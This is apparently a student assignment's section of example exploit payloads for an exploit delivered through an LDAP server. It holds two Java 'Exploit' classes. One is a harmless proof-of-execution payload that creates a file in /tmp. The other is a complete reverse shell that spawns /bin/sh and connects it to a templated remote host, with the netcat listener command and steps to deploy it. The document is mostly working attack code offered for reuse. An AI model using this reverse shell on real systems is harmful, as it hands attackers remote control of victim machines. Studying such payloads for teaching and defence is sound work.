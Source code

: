 == Example Exploit Payloads

=== This assignment

For this assignment I am using a very simple payload that just creates a file to show that the exploit has taken place.

--------------------------

import java.io.*;
import java.net.*;

public class Exploit {

    public Exploit() throws Exception {
        try {
            File myObj = new File("/tmp/filename.txt");
            myObj.createNewFile();
        } catch (IOException e) {}
    }
}

--------------------------


=== Reverse shell

This is the example payload that is used for this exploit. Using some Java programming you can open up a reverse shell with ease. To do this yourself you need to change the exploit served by the LDAP server and you need to open up a nc listener.

`nc -lvnp 9001`

`./run.sh reverse_exploit.java`

--------------------------
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {
    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";

        // Spawn a shell
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();

        // Create a websocket
        Socket s=new Socket(host,port);

        // Do some stream redirection between the shell and websocket
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}

--------------------------
